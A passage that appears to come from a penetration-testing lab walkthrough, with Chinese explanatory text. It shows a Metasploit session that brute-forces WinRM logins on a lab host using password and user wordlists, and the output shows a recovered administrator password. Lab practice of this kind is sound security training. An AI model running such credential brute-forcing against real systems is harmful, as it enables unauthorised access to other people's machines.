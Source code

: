 ```
Nmap done: 1 IP address (1 host up) scanned in 36.48 seconds
```

[WinRM Login Utility](https://www.rapid7.com/db/modules/auxiliary/scanner/winrm/winrm_login/)

WinRM 登录实用程序

此模块尝试对 WinRM 服务进行身份验证。它目前仅在远程端允许协商（NTLM）身份验证时才有效。目前不支持 Kerberos。请注意：要在没有 SSL 的情况下使用此模块，必须设置“AllowUnencrypted”winrm 选项。否则调整端口并根据需要在模块中设置 SSL 选项。

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > show options

Module options (auxiliary/scanner/winrm/winrm_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DOMAIN            WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             5985             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   URI               /wsman           yes       The URI of the WinRM service
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.0.28.36
RHOSTS => 10.0.28.36
msf5 auxiliary(scanner/winrm/winrm_login) > run

[+] 10.0.28.36:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/winrm/winrm_login) > 

```
